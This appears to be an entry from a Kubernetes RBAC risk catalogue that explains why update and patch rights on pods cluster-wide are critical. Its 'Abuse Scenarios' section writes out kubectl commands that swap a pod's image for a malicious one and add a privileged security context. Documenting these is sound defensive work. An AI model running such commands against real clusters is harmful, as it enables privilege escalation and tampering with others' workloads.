```yaml
---
id: 1008
title: "Update/Patch pods cluster-wide"
description: "Permits modifying existing pods in any namespace across the cluster. This is critical as an attacker can alter a pod's specification to grant it elevated privileges (e.g., change image, add privileged security context, mount sensitive host paths), leading to code execution, privilege escalation, and tampering with running workloads."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1008                                                                                      |
| Name          | Update/Patch pods cluster-wide                                                            |
| Risk Category | Elevation of Privilege                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                     |
| Role Type     | ClusterRole                                                                               |
| API Groups    | core                                                                                      |
| Resources     | pods                                                                                      |
| Verbs         | update, patch                                                                             |
| Tags          | {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadExecution" >}} |

## Description

Permits modifying existing pods in any namespace across the cluster. This is critical as an attacker can alter a pod's specification to grant it elevated privileges (e.g., change image, add privileged security context, mount sensitive host paths), leading to code execution, privilege escalation, and tampering with running workloads.

## Abuse Scenarios

1. Patch a running pod to change its container image to a malicious one.

```bash
kubectl set image pod/<pod-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image pod/nginx-deployment-xyz nginx=malicious/nginx-backdoor -n default

```

2. Patch a running pod to add a privileged security context (if not blocked by PSP/PSA).

```bash
kubectl patch pod <pod-name> -n <namespace> --type='json' -p='[{"op": "add", "path": "/spec/containers/0/securityContext", "value": {"privileged": true}}]'
# Example: kubectl patch pod my-app-pod -n production --type='json' -p='[{"op": "add", "path": "/spec/containers/0/securityContext", "value": {"privileged": true}}]'

```
